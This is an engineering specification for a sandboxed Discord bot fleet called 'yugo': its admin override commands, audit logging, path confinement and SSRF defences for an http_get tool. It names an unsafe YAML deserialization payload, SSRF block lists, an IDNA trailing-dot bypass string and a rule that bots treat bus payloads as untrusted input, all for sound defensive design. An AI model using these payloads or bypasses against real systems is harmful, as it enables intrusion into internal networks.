- `/yugo unlock <bot>` — clear per-bot lock
- `/yugo freeze` — everything to `strict` immediately; requires explicit `/yugo unfreeze` to clear
- `/yugo unfreeze` — clear active freeze (the ONLY command that can defeat a freeze)

**Command authorization (SEV2-2 v11 fix):** all override commands (`/yugo mode`, `/yugo lock/unlock`, `/yugo freeze/unfreeze`, `/yugo policy reload`, `/yugo pwa install`) require the invoker's Discord ID to appear in the POLICY_FILE `admins:` block (§7A.4). Non-admin invocations in `COORDINATOR_CHANNEL_ID` are rejected with an ephemeral "not authorized" reply and audit line. `COORDINATOR_CHANNEL_ID` MUST also be permission-restricted at the Discord server level (channel visibility limited to trusted humans) — the `admins:` list is defense-in-depth, not the sole barrier. `/yugo policy show` is unauthenticated (read-only, safe to expose to any channel member).
- `/yugo policy show` — dump current effective policy for a sample envelope from the fleet
- `/yugo policy reload` — SIGHUP the coordinator (re-read POLICY_FILE + sidecar from disk)

**Invariants** (SEV2 fixes):
- **Freeze is un-overridable except by `/yugo unfreeze`.** `/yugo mode bypass` while a freeze is active is REJECTED with an audit note. This prevents a later override entry silently defeating the emergency stop.
- **Override entries evaluated in ISO-8601 `applied_at` order (most-recent first)** — coordinator sorts, not YAML file order. Freeze always sorts first regardless of `applied_at`.
- **Sidecar writes are atomic**: temp-file + rename inside `$YUGO_OVERRIDES_PATH`'s directory. Coordinator is the SOLE writer (S2-5 discipline), so no external-writer race.
- **POLICY_FILE change detection (S2-E v7, tightened v8):** coordinator MTIME-watches POLICY_FILE every 30s AND ALSO HASHES POLICY_FILE at each HOLD DECISION (SEV3 v8 fix — the only latency-sensitive moment when stale policy actually matters). If hash-at-hold differs from cached hash, coordinator triggers immediate reload before evaluating the envelope. mtime-watch stays as background nudge. Prevents up-to-90s stale window at the actually-consequential moment.
- **SIGHUP + malformed YAML = keep-last-good.** Coordinator logs the parse error, retains previously-loaded policy, posts a warning to `COORDINATOR_CHANNEL_ID`. Never crashes on bad YAML.

Overrides ride at the top of `precedence:` so they win over static rules. Each override entry has an ISO-8601 `expires_at` (or `sticky: true`), an `applied_at` (for sort order), an `applied_by` (human id).

- **Expired entries are skipped at eval time** (SEV3 v6 fix): coordinator compares `expires_at` against wall-clock on every envelope evaluation. Between expiry and next cull sweep an expired entry NEVER fires. Cull is a disk-hygiene sweep (hourly), not a correctness gate.
- Overrides live in `$YUGO_OVERRIDES_PATH` sidecar (not POLICY_FILE — S2-5 v6 fix). Coordinator is the sole writer of the sidecar; POLICY_FILE stays human-owned + read-only for the coordinator.

### 7A.6 Audit

Every held envelope, every human decision, every override command writes one line to `$YUGO_AUDIT_PATH` (default `/var/lib/yugo/hitl-audit.jsonl`):

```
{ts, envelope_id, root_id, from, to, class, mode, decision, human_id, reason, override_source}
```

Audit path is OUTSIDE any bot's `write_file` scope (per §9). The **coordinator process itself has full OS write access** to this file (a compromised coordinator can rewrite history). Tamper-resistance is a v1.0+ concern — options include append-only mount, external log shipping, or hash-chain per line. v0.7.0 relies on process-integrity assumptions.

### 7A.7 Deferred (v0.7.x+)

- `notify` mode + revoke window
- `asleep` context — different defaults when the human is asleep (defer-to-morning vs auto-reject)
- `max_declared_class` per-bot ceiling (SEV1-2 defense-in-depth; v0.7.0 relies on fail-closed default + classless short-circuit)
- Audit tamper-resistance (append-only mount, external ship, hash-chain)
- **Sub-agent support** — bot spawns another bot mid-turn for delegation, sub-agent envelopes carry parent baton with an `agent_parent` field. v0.8+ once single-bot HITL is stable.

## 8 — Security posture

**Transport is the seam.**

- Bot-bot communication goes exclusively via fleet-bus. Never Discord DMs between bots.
- `bot.py` hard-rejects messages where `msg.author.bot` is true. No allowlist mode. Bots reach other bots via fleet-bus, period.
- `.env` chmod 600, gitignored. API keys never in Discord messages, logs, replies.
- Persona file is read-only bind-mount.
- Fleet-bus injection frames carry `authenticated="false"` per fleet-bus SPEC §4 — `from` is allowlist-checked against fleet-manifest.yaml but not cryptographically bound. Model treats bus payloads as untrusted external input.

## 9 — Tool sandbox (v0.4)

**Default: reduced-homelab mode.** Cheap-important guards on; expensive guards off. Assumes trusted humans in trusted channels. **When the threat model changes — external users, unvetted channels, a security-review deliverable — full mode is what is required, and it does not exist yet: setting `SANDBOX_MODE=full` aborts startup rather than running reduced under a full label (v0.4e).** This sentence previously read "flip to `SANDBOX_MODE=full` to enable the expensive guards", which described a capability the code has never had; it is recorded here because a reader who finds that phrasing in an older copy is reading a promise, not a feature.

### Reduced-homelab mode (default)

**ON:**
- `http_get` **default-deny to internal network**. Blocked list: `127.0.0.0/8`, `169.254.0.0/16` (cloud metadata), RFC1918 (`10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`), IPv6 loopback (`::1`) + ULA (`fc00::/7`), and the **blocked-TLD set, which is exactly**: `internal`, `local`, `localhost`, `home.arpa`, `home`, `lan`, `test`, `invalid`, `onion` — matched case-insensitively against whole trailing labels, so `printer.local` is blocked and `mylocal.example.com` is not. **For hostnames this list is exhaustive, not a floor** — the "enumerated list is a floor" clause below governs ADDRESSES, whose contract is globally-routable unicast; a name cannot be tested against that contract before it resolves, so a name outside this set is passed to resolution and judged on the address it yields. Without that split, `https://svc.alt/` is fetched under "exactly" and refused under "floor", both citing this line — reopening the ambiguity the enumeration was written to close. **The set is enumerated because it had no referent:** the phrase was ".internal TLDs" and nothing said what else was in it. Provenance, stated exactly because a reader reconciling it against the RFCs will otherwise "correct" it: `localhost`, `test` and `invalid` are RFC 6761; `local` is **RFC 6762** (mDNS); `home.arpa` is RFC 8375; `onion` is **RFC 7686**; `internal` is ICANN's 2024 reservation and has no RFC; **`home` and `lan` have no reservation at all** and are here on de-facto grounds — they are what consumer routers hand out, they resolve to RFC1918 space or to nothing, and they were already refused by the shipped implementation. **They are listed because the code refused them and this document did not, which is the direction that matters: a security list is widened to match the stricter artifact, never narrowed to match the looser one.** **RFC 6761 also reserves `example`, which is deliberately NOT in this set** — `example.com` and friends resolve publicly and are ordinary fetch targets, so blocking them would refuse working destinations rather than unroutable ones. Also blocked: IPv6 link-local `fe80::/10`, unspecified `0.0.0.0/8` and `::`, and IPv4-mapped IPv6 (`::ffff:0:0/96`) **normalised to its v4 form before comparison**. The enumerated list is a floor; the contract is **globally-routable unicast only**. Post-resolution IP check on **every hop of a redirect chain**, with **address pinning per §9.3.3** — connect only to an already-validated address, hostname preserved for Host/SNI/certificate verification. Without pinning this is check-then-use and does NOT defend rebinding. Redirect-follow cap — **default 5, range 0..10, per §9.3.3**.
- Audit log at `$YUGO_TOOL_AUDIT_PATH` (default `/var/lib/yugo/tool-audit.jsonl`) — path OUTSIDE `write_file`'s allowed scope so agent can't tamper with its own audit.
- Docker socket NOT bind-mounted into the container. Bot has no path to spawn arbitrary containers on the host.
- `write_file` / `read_file` confined to `$YUGO_WORKSPACE_PATH` (default `/var/lib/yugo/workspace/<BOT_NAME>`, not container root). NOT chroot and NOT namespace isolation — both need privileges the bot does not hold inside its container. **Containment is established by the open itself, per §9.2, not by a check that precedes it.** What this protects is integrity and secrets *inside* the container — runtime files, credentials, another bot's workspace on a shared volume. The container bounds host escape; it does nothing about a bot reading a token out of `/root` or rewriting a file another process trusts, and an in-container escape is not a low-consequence event.

**OFF (deferred to `full` mode):**
- cgroup-per-invocation resource limits — trade: fork bomb / infinite loop makes bot unresponsive until container restart, no host impact
- Broker process for shell — trade: shell runs as `subprocess.run` in bot process with container's filesystem access. Container isolation still holds; no host escape.

### Full mode (opt-in)

All of reduced + cgroup pids-limit + memory limit + wall-clock timeout + broker process for shell (separate ephemeral container) + output-size cap. Adds ~1 week of implementation.

**Until those guards exist, `SANDBOX_MODE=full` is a startup abort — not a warning and not a silent downgrade (v0.4e).** An operator sets `full` at the moment the threat model changes; accepting the value and continuing in reduced mode answers that moment with a lie, and a lie nothing later contradicts. A log warning is insufficient for the same reason: the warning scrolls, the belief persists. **An unrecognised value aborts too** — `SANDBOX_MODE=strict` is an operator who means `full`, and resolving it to `reduced` is the same failure by a different route. `reduced` and the blank/unset case are the only values that start the bot, and the comparison is case-insensitive. When full mode ships, this clause is what stops being true; the flag's parse becomes a selection instead of a refusal.

### Universal (both modes)

- Tools declared per bot in `$YUGO_TOOLS_FILE` (default `/etc/yugo/tools.yaml`, mounted `:ro`) — no auto-discovery, and **not in IDENTITY.md**: a grant is not persona prose (see v12.2 changelog). Grammar in §9.1 — naming a `.yaml` path is not a contract, and leaving the shape to the implementer is how the persona bullet list got invented in the first place
- Every tool call audited with args + result summary + duration
- MCP passthrough only for MCP servers explicitly declared

**Tool set at v0.4 initial:** `read_file`, `write_file`, `list_dir` (all scoped per §9.2, semantics in §9.3), `http_get` (default-deny egress). `shell` deferred to v0.5+ in reduced mode; requires full mode from day one when it ships.

### 9.1 — `$YUGO_TOOLS_FILE` grammar (v0.4b)

A mapping, not a list. The list shape is what v0.4a invented and what carrying
per-tool configuration breaks — `write_file` needs bounds, and a bullet cannot
hold one.

```yaml
# /etc/yugo/tools.yaml — mounted :ro
version: 1
tools:
  read_file:
    max_bytes: 1048576        # per-tool config; omitted keys take the default
  write_file:
    max_bytes: 262144
  http_get:                   # a tool with no config: empty mapping or null
```

**The loader MUST be `yaml.safe_load` (or an equivalent `SafeLoader`).
`yaml.load` with the default loader is FORBIDDEN.** The default loader
constructs arbitrary Python objects, so a `tools.yaml` containing
`!!python/object/apply:os.system [...]` executes at startup — **before a single
rule in the table below runs**. The file is `:ro` and operator-authored, which
bounds the threat, but the choice of loader is the most load-bearing decision
in this section and leaving it to the implementer is exactly the mistake §9.1
exists to prevent. A section that mandates duplicate-key detection and not
`safe_load` has patched the small hole and left the large one.

**Every other rule below is FAIL-CLOSED and fatal at startup, naming the
offending key.** A bot that boots with a grant set nobody intended is worse than a bot
that refuses to boot — the same rule §9 already applies to a declared tool this
build does not ship.

| Condition | Behaviour |
| --- | --- |
| File absent, or present and empty | **Not fatal.** Zero tools; `tools=` is not sent to the provider at all. This is the default state of every bot that has not been granted anything, including every v0.3 bot on upgrade. |
| Malformed YAML | fatal |
| Root is not a mapping | fatal |
| `version` missing, or not exactly `1` | fatal. Present from the first release so a future grammar change is a version bump, not a guess |
| Unknown top-level key | fatal — an ignored key in a grant file is a silently unenforced intention |
| `tools` missing or null | zero tools (not fatal) |
| `tools` present but not a mapping | fatal. A YAML list here is the bullet grammar returning by the back door |
| A tool name this build does not ship | fatal, naming it (unchanged from v0.4a) |
| A tool name that is not `[a-z][a-z0-9_]*` | fatal |
| **Duplicate tool name** | fatal. YAML mappings have no duplicate semantics and PyYAML silently keeps the last — for a capability grant, "silently keeps the last" is a grant change nobody reviewed. The loader MUST detect duplicates during parse rather than inspect the resulting dict, which cannot see them |
| A tool's value that is neither a mapping nor null | fatal |
| Unknown key inside a tool's config | fatal — same reason as unknown top-level keys |
| File is group- or world-**writable** | fatal. It is a grant file; `0644` is fine, `0664` is not |

**The loader MUST log one line at startup**: the resolved `$YUGO_TOOLS_FILE`,
whether a file was found, and how many tools were granted. The absent-file rule
is fail-closed for *capability* but fail-SILENT for *intent* — an operator who
meant to mount a grant file and mistyped the path gets a working, tool-less bot
and no diagnostic. That is §9.2's own argument turned on this section: a
sandbox that quietly becomes a suggestion is worse than one that refuses to
start, *because only one of the two is visible*. Absence must stay non-fatal
(every v0.3 bot on upgrade has no grant file); it does not have to stay silent.

**The read is once, at startup.** No reload, no watch: a capability set that can
change under a running turn is a capability set that cannot be audited against
the turn that used it.

### 9.2 — Race-safe path confinement (v0.4b)

**Resolve-then-open is not safe and MUST NOT be implemented.** An earlier draft
of this section offered `O_NOFOLLOW` on the final component, or re-verification
through the file descriptor after opening. Both are wrong, and the reasons are
recorded here so neither is reinvented:

- **Final-component `O_NOFOLLOW` closes nothing.** An attacker who can write in
  the workspace swaps an **intermediate directory** for a symlink after
  resolution. The final basename is still an ordinary file, so `O_NOFOLLOW` is
  satisfied while the open follows the replaced parent clean out of the
  workspace.
- **Open-then-re-verify is too late for writes.** With `O_TRUNC`, or with
  `O_CREAT` landing outside the boundary, the damage is done before the
  verification runs.

**Required: `openat2(2)` with `RESOLVE_BENEATH | RESOLVE_NO_SYMLINKS |
RESOLVE_NO_MAGICLINKS`, relative to a dirfd opened once on
`$YUGO_WORKSPACE_PATH` at startup and held for the process lifetime.** The
kernel enforces containment for **every** component as part of the open, so
there is no window between check and use — the class of bug above stops
existing rather than being defended against. `O_TRUNC` is then safe, because
containment is established by the same syscall that truncates.

Notes for the implementer:

- Python has no stdlib binding. `ctypes` + `syscall(2)`; `__NR_openat2` is
  **architecture-specific** — resolve it for the running architecture rather
  than hardcoding one number, and **fail closed on an architecture the loader
  does not know**.
- **If `openat2` is unavailable** — kernel older than 5.6, or the syscall
  blocked by a seccomp profile — `read_file` and `write_file` **fail closed**:
  startup aborts naming the reason. **The abort is conditional on a filesystem
  tool actually being granted.** A bot whose grant file names no filesystem
  tool has no sandbox primitive to require, and must boot normally on a kernel
  without `openat2` — refusing to start a chat-only bot over a syscall it will
  never issue is a fail-closed rule applied where there is nothing to close. Verified available under Docker's
  **default** seccomp profile on the deployment kernel, so this is a rare
  event on the plain-Docker fleet rather than a routine one. Under
  gVisor/`runsc`, where `openat2` may return `ENOSYS`, the same rule becomes a
  **permanent** boot failure for any bot granted a filesystem tool. That is the
  correct outcome — a silently unenforced sandbox is worse — but it is named
  here so a future gVisor migration meets it in the spec rather than in
  production. There is no silent degradation to path
  validation. A sandbox that quietly becomes a suggestion is worse than one
  that refuses to start, because only one of the two is visible.
- The **only** permitted alternative is a dirfd-relative walk that opens each
  component in turn from the workspace dirfd with `O_NOFOLLOW` on **every**
  component, never only the last, and performs no destructive open until the
  full walk has succeeded. It is more code and more subtle than `openat2` and
  should be treated as a fallback to justify, not a default.
- Conformance tests MUST include the intermediate-directory swap, not just a
  symlinked final component — a suite that only tests the last component is
  green against the unsafe implementation this section exists to forbid.

**What `RESOLVE_BENEATH` does NOT stop: hardlinks.** A hardlink planted inside
the workspace, pointing at a file outside it on the same filesystem, resolves
through components that are all beneath the root and none of them symlinks —
so the open succeeds. The workspace and the tool audit log share one volume by
design (§9, §5), which means the audit-tamper invariant those sections state is
**not** purely kernel-enforced: it also depends on no granted tool offering a
link-creating primitive. That holds through v0.4b — `read_file`, `write_file`
and `http_get` cannot create a link — and must be revisited when `shell` ships
at v0.5+, or if a second process is ever given write access to the same volume.
Before then, a separate volume for the audit log, or a link-count check on
open, is the durable fix. Stated here rather than left implied because §5 and
§9 phrase that invariant unconditionally, and unconditionally is wrong.

### 9.3 — Filesystem tool semantics (v0.4b)

§9.2 settles CONFINEMENT and says nothing about what the tools do. That gap is
the same shape as the one §9.1 exists to close — "the `.yaml` suffix is not a
contract" applies equally to "`read_file` reads a file" — so the semantics are
decided here rather than by whoever implements them. Settled by Fernando
2026-08-28.

**Paths are WORKSPACE-RELATIVE, always.** The model asks for `notes/todo.md`,
never `/var/lib/yugo/workspace/<BOT_NAME>/notes/todo.md`. An absolute path, or
one containing a `..` component, is refused as a tool error without reaching
the filesystem. Two reasons: an absolute path puts the container's layout into
the prompt and invites the model to try `/etc/passwd` — which `openat2` refuses,
but every refusal is a wasted round and a confusing result — and a relative
contract means the same persona works unchanged on any host. Refusing `..`
early is belt-and-braces: `RESOLVE_BENEATH` already stops it, and a named tool
error teaches the model more than `EXDEV` does.

**Every tool below is confined by §9.2**, including `list_dir` and including
the parent-directory creation `write_file` performs. **Directory creation must
go through the same dirfd-relative discipline as the open** — an implementation
that validates the path and then calls a plain `os.makedirs` has reintroduced
exactly the check-then-use window §9.2 exists to remove.

| Tool | Signature | Behaviour |
| --- | --- | --- |
| `read_file` | `path` | Returns the file's text. Default bound **1 MiB** (`max_bytes`). |
| `write_file` | `path`, `content` | **Overwrites.** Creates missing parent directories. Default bound **256 KiB** (`max_bytes`). |
| `list_dir` | `path` | Entries in one directory under a header line, each marked directory (`/`), unopenable (`@`), or plain file. Not recursive. Default bound **1000 listed** (`max_entries`). |

**Over a bound is never SILENT truncation.** The rule being protected is that
the model must never receive a partial result it believes is whole — it would
act on the missing half without knowing there was one, and for a listing that
reads as "that file does not exist". The two tool families satisfy that rule
differently, and the difference is not arbitrary:

* **`read_file` and `write_file` over `max_bytes` are a NAMED ERROR.** File
  content has no structure the harness can annotate: truncated text is
  indistinguishable from complete text once it is in the context, so the only
  way to avoid a silent partial is to refuse. The error names the bound and the
  actual size.
* **`list_dir` over `max_entries` TRUNCATES and says so in its header** —
  `(truncated at max_entries=N)`, with the true total alongside. A listing does
  have a structure to annotate, so truncation here is not silent and the rule
  is satisfied without refusing. Refusing would be worse than in the read case:
  a bot with `max_entries + 1` files could never list its workspace again, and
  there is no delete tool to get back under the bound.

The distinction is the presence of a header, not a judgement that listings
matter less.

**UTF-8 only.** A file whose bytes are not valid UTF-8 is a named tool error,
not a decode with replacement characters. Same principle: a lie about content
is worse than a refusal. Binary support, if it is ever wanted, is a separate
tool with a separate contract — not a silently lossy `read_file`.

**No append mode.** It is a second write semantics with its own failure story
and nothing has asked for it. A bot that needs to append reads, concatenates
and writes — which is also the only version that stays inside one audited call
per state change.

**Path components may not contain control characters.** Any component of a
path handed to any of these tools containing a C0 control (`U+0000`–`U+001F`)
or `U+007F` is a named tool error, refused before the filesystem is touched.

This is a **model-deception** rule, not a tidiness rule. `list_dir` prints one
entry per line, and a newline is a perfectly legal POSIX filename character. A
bot allowed to `write_file` a name containing `\n` could manufacture a file
that lists as **two** entries — forging a listing the model then reasons about.
The tool would be lying on the bot's own instruction. Refusing the character at
creation closes it at the source, and there is no escaping scheme to invent.

**`list_dir` output.** A header line, always present and always first, then one
entry per line sorted by byte value so repeated calls are stable and a diff
between turns means something:

```
# 3 listed, 1 omitted, 4 total
notes/
report.md
scratch@
```

**Three numbers, never two, and no arithmetic left to the reader.** An earlier
draft said `# 3 entries, 1 omitted` and left "entries" to mean either the
listed count or the physical total — the example and the prose then disagreed
about how many lines should follow. A model that has to infer which number it
is holding will eventually infer wrong, and a listing is the one output where
a wrong count reads as "that file does not exist".

* **listed** — lines that follow. Exactly this many.
* **omitted** — present but unrepresentable (below). Not listed, not addressable.
* **total** — what the directory actually holds. `listed + omitted`, unless the
  listing was truncated.

**Truncation is stated, not implied.** When `max_entries` cuts the listing, the
header says so outright rather than expecting the model to compare numbers:

```
# 1000 listed, 0 omitted, 12043 total (truncated at max_entries=1000)
```

**`max_entries` bounds the LISTED count**, not the total. The bound exists to
protect the model's context, and an omitted entry costs one increment of a
counter, not a line. The total is still reported honestly so the model knows it
is seeing a subset.

**The scan itself is bounded**: a directory holding more than **100000** entries
is a named tool error naming the ceiling. Reporting an exact total means
walking the whole directory, and an unbounded walk is a tool that can hang the
turn on a pathological mount.

A directory gets a trailing `/`. **Anything that is neither a regular file nor
a directory — symlink, fifo, socket, device — gets a trailing `@`**, because
`RESOLVE_NO_SYMLINKS` means these tools can never open it: listing it as an
ordinary file would promise a read that always fails.

**An entry whose name is not valid UTF-8, or contains a control character, is
COUNTED IN THE HEADER AND NOT LISTED.** The call still succeeds. Two of these
tools cannot create such a name, so it arrives from outside the bot — and
failing the whole call would make a bot's own files invisible because of one
file it did not create and cannot delete. Counting it is honest: the model
learns something is there that it cannot address, which is exactly true, and
learns nothing false. The header is disambiguated **by position**, not by
content: a file named identically to a header line would appear on a later
line, because the header is always emitted and always first.


**`write_file` returns a short confirmation naming the path and the byte count
written — never an echo of the content.** The result goes into the model's
context AND the audit line; echoing a 256 KiB write into both is a bounded
tool amplified into an unbounded one.

**Created files are `0600`, created directories `0700`** — the same modes the
tool audit log already uses, and for the same reason: the workspace holds
whatever the bot was handed.

### 9.3.1 — Per-tool config: what a tool accepts, and what a value may be

§9.1 makes an **unknown key inside a tool's config fatal at startup**, and
correctly so — an ignored key in a grant file is a silently unenforced
intention. But §9.1 never said *who decides which keys are known*. Left there,
the shipped v0.4b-1 loader rejects every non-empty config, which means **§9.1's
own worked example (`read_file: {max_bytes: 1048576}`) is currently fatal**.
That was right while `loop_probe` was the whole registry and no tool had
config; it stops being right the moment one does.

**A tool DECLARES the config keys it accepts.** The declaration lives with the
tool, next to its schema and handler — not in the loader, which must not grow a
table of every tool's options. The loader validates a grant's config against
the declaration of the tool being granted. A tool that declares none continues
to reject all config, which preserves today's behaviour for `loop_probe`.

Accepted keys at v0.4b: `max_bytes` for `read_file` and `write_file`,
`max_entries` for `list_dir`. Each is optional; omitted means the §9.3 default.
**v0.4c adds `max_bytes`, `timeout_ms` and `max_redirects` for `http_get`** —
values, ceilings and enforcement rules in §9.3.3.

**Value rules — every one fatal at startup, naming the key:**

| Condition | Why it is not merely "invalid" |
| --- | --- |
| Not an integer | — |
| **A `bool`** | `isinstance(True, int)` is True in Python. `max_bytes: true` would otherwise become a 1-byte bound and every read would fail with no obvious cause. Reject explicitly; this is the single likeliest way a wrong value passes a naive check |
| Zero or negative | A 0-byte bound is a tool that can never succeed — fail where an operator can see it, not on every call |
| Above the ceiling | `max_bytes` ≤ **16 MiB** (read), ≤ **4 MiB** (write); `max_entries` ≤ **10000**. An unbounded bound is a bot reading a multi-gigabyte file into memory. The ceiling is a config error, so it is fatal at startup rather than a tool error at call time |

### 9.3.2 — A missing workspace is created, not fatal

`$YUGO_WORKSPACE_PATH` is **created at startup, mode `0700`, when a filesystem
tool is granted** — the same treatment the tool audit log's parent directory
already gets. Aborting instead would fail every fresh deployment on first boot
for no security gain: the path is operator-supplied and container-local, and
the bot cannot influence it.

Two conditions around it ARE fatal, naming the path: the path exists and is
**not a directory**, or it cannot be created. Both are misconfiguration an
operator must see, and neither is something a bot can work around.

Creation is conditional on the grant, exactly as the `openat2` availability
check is (§9.2): a chat-only bot creates no workspace.

**What a timed-out filesystem call does and does not prove.** The handlers run
off the event loop (`asyncio.to_thread` or equivalent) so a slow filesystem
cannot stall the turn, Discord, or a NATS callback — that is the property
v0.4a's deadline requires and it holds. But Python **cannot cancel a worker
thread already inside a syscall**, so a `write_file` that timed out may still
complete afterwards. The audit line records the call as timed out **from the
harness's perspective**; it is not evidence that no filesystem effect occurred.
Anyone reasoning about "did that write land" from the audit alone will
eventually be wrong.

`O_NONBLOCK` does not help here — it closes the FIFO/device class before
`fstat`, and provides no deadline whatsoever for a regular file. Deadline
responsiveness for regular files comes entirely from the offload.

Two consequences worth stating rather than discovering: keep workspaces on
local or bind-backed storage, because a stalled FUSE or network mount leaves an
executor thread running past the timeout; and if such mounts ever enter the
deployment model, the default executor becomes exhaustible and this needs a
bounded or dedicated execution design rather than `to_thread`.

**Every failure here is a MODEL-VISIBLE tool error, not a startup abort.** A
missing file, a bad path, an over-bound read and a non-UTF-8 file are all things
the model can react to mid-turn; §9.1's fatal conditions are things an operator
must fix before the bot should run at all. Do not confuse the two lanes.

### 9.3.3 — `http_get` bounds and semantics (v0.4c)

§9 states `http_get`'s SSRF defences and §9.4 states its credentials. **Neither
states what the tool DOES** — no redirect cap value, no response-size bound, no
timeout, no result shape. §9.3.1's accepted-config table listed keys for
`read_file`, `write_file` and `list_dir` and none for `http_get`, and a tool that
declares no keys rejects all config, so those bounds could not even be expressed.

**Declared config keys** (per §9.3.1's mechanism):

| Key | Default | Range | Fatal-value rule |
| --- | --- | --- | --- |
| `max_bytes` | 262144 (256 KiB) | 1 .. 4 MiB | §9.3.1's standard rule — non-integer, `bool`, zero-or-negative, above ceiling |
| `timeout_ms` | 30000 | 1 .. 120000 | §9.3.1's standard rule |
| `max_redirects` | 5 | **0 .. 10** | §9.3.1's standard rule EXCEPT that **zero is legal**, see below |

**`max_redirects: 0` is legal and is the SAFEST setting.** §9.3.1 makes
zero-or-negative fatal, and that reasoning holds for a byte or time limit — a
0-byte bound is a tool that can never succeed. It does not hold here: zero means
"follow no redirects," which is a valid and strictly safer configuration. Negative
remains fatal. This carve-out is stated because inheriting §9.3.1's rule
unexamined made the safest setting illegal.

**Redirect counting, exactly, because an implementation otherwise invents the
off-by-one.** `N` is the number of redirect *responses the client may follow*.
`N = 0` permits one request and follows nothing. `N = 5` permits at most **six**
total requests. Encountering a redirect response after `N` have been followed is
the named error `http_get_redirect_cap`, not a silent stop.

**Why these numbers.** `max_bytes` at 256 KiB is roughly 64k tokens — already a
large fraction of a turn's context, and the result also reaches the audit as a
**bounded summary** (`ToolAuditLog` caps result summaries at 500 characters, so
the audit is not the size argument; the model's context is). The 4 MiB ceiling
mirrors `write_file`'s rather than `read_file`'s: bytes arriving from a host the
model chose deserve the tighter bound. `max_redirects` at 5 is generous for real
APIs — an authenticated GitHub fetch takes one or two hops.

#### One deadline, not two

v0.4a already gives each tool call the turn's remaining `RESPONSE_TIMEOUT`
budget. `http_get.timeout_ms` would otherwise be a second, independent deadline.

**The implementation computes ONE monotonic deadline at call entry:**

```text
deadline = now_monotonic() + min(configured timeout_ms, remaining turn budget)
```

That single deadline is spent across DNS resolution, connect, TLS handshake,
header read, **every redirect hop**, and body streaming. **Recomputing a fresh
timeout at any hop or phase violates "total wall-clock"** and is the specific
mistake this clause exists to forbid. Expiry is the named error
`http_get_timeout`.

§9.3.2's caveat applies with full force: an outer `asyncio.wait_for` cannot be
assumed to interrupt a socket operation already in progress, so the deadline MUST
also be pushed down as socket-level timeouts, not enforced only by an outer
cancel.

#### The byte bound, and what it is a bound on

| Rule | Why |
| --- | --- |
| `max_bytes` bounds **decoded bytes materialized for the tool result**, and **wire bytes are separately bounded during streaming** so decompression cannot build an unbounded intermediate. Which encodings are decoded at all is settled below under **Content-Encoding** — an earlier draft bounded "decoded bytes" without ever saying what decoding was permitted | Bounding wire bytes alone permits a compression bomb: a few KiB of `gzip` or `br` expanding to gigabytes before anything becomes tool-visible. Bounding decoded bytes alone lets a hostile host stream forever without ever producing decoded output. **Both bounds are required; neither substitutes for the other** |
| `max_bytes` is **cumulative across the whole redirect chain**, not per response | Per-response is not a resource bound — five hops at the cap is five times the cap. Cumulative is the honest number |
| **Redirect response bodies are never returned and are NEVER CHARGED against any bound**, and **no read is issued after the header terminator** on a 3xx with a usable `Location` — the connection is closed instead. Bytes that arrive in the same read as the end of the header block are discarded uncharged; the implementation is not required to avoid receiving them | An auto-following client will happily drain an enormous 302 body on its way to the next hop. **Two earlier revisions of this row were both wrong, in opposite directions.** "At most 8 KiB, charged against `max_bytes`" was not a figure at all — it permitted any read in [0, 8192] and then billed the implementation's free choice, so a 1 MiB 302 followed by a 260,000-byte body under the default cap was refused by one conforming implementation and returned by another. "ZERO bytes are read" fixed the divergence and bought it at an absurd price: since a bulk read of the header block cannot know it will end at the terminator, that wording forces a **one-byte-at-a-time header read** — thousands of syscalls per hop, through TLS, to save nothing. **The observable property is what matters, and it is not how many bytes arrive: it is that they reach no one and cost nothing.** Uncharged plus no-further-read gives both implementations the same result, which is what closes the divergence, and it moots the decoded-versus-wire counter question exactly as zero did |
| **Response headers are bounded separately at 64 KiB total** across all hops | Body streaming does not bound a header bomb. A host that never sends a body can still send unbounded headers |
| **`Content-Length` MUST NOT be trusted** — neither to skip the streaming check nor as the sole basis for accepting a response | It is a claim by the same host that controls the body. Rejecting early on a declared-oversize length is permitted as an optimisation but MUST NOT replace the streaming bound |
| Over any bound is a **named tool error**, never a truncated body handed to the model | §9.3's rule: a truncated result the model believes is complete is a lie, and a lie is worse than a refusal |

#### Address pinning — "post-resolution check" alone does NOT defend rebinding

**Resolving a hostname, validating the address, then handing the HOSTNAME to an
HTTP client is check-then-use.** The client resolves a second time; an attacker
answers with a public address for the validation and a link-local one for the
connect. §9's "post-resolution IP check (defends DNS rebinding)" was not true as
written.

**The rule:** each hop resolves the hostname, validates every returned address
against the blocklist, and then **connects only to one of those
already-approved addresses**. The original hostname is preserved for the `Host`
header, SNI, and certificate verification — pinning the address must not become
certificate bypass. **Redirects repeat the whole sequence**: resolve, validate,
pin, connect.

**The blocked set, corrected.** §9's list omitted cases that are not exotic:

| Added | Form |
| --- | --- |
| IPv6 link-local | `fe80::/10` |
| Unspecified | `0.0.0.0/8`, `::` |
| IPv4-mapped IPv6 | `::ffff:0:0/96` — **normalise to the IPv4 address BEFORE comparing**, or `::ffff:127.0.0.1` walks past a v4-only loopback check |
| IPv4-compatible / deprecated forms | `::w.x.y.z` — normalise, then apply the v4 rules |
| **Host checks run on the POST-IDNA form, and every host predicate runs on the SAME form** | The blocked-name set and the trailing-dot refusal MUST both be evaluated after `encode("idna")`. **Python's IDNA codec splits labels on U+3002, U+FF0E and U+FF61 as well as `.`, and converts a trailing one into an ASCII trailing dot** — so a pre-IDNA trailing-dot check paired with a post-IDNA name check leaves `http://svc.internal\u3002/x` passing both: the pre-IDNA string does not end in `.`, and the post-IDNA `svc.internal.` does not end in `.internal`. One character defeats the blocked-name set and the trailing-dot rule together, and the name that reaches DNS and the `Host` header is a valid FQDN a real resolver answers. **Splitting a pair of checks across two forms of the same value is the same defect as splitting a rule across one half of a pair**, which this document has now committed five times |
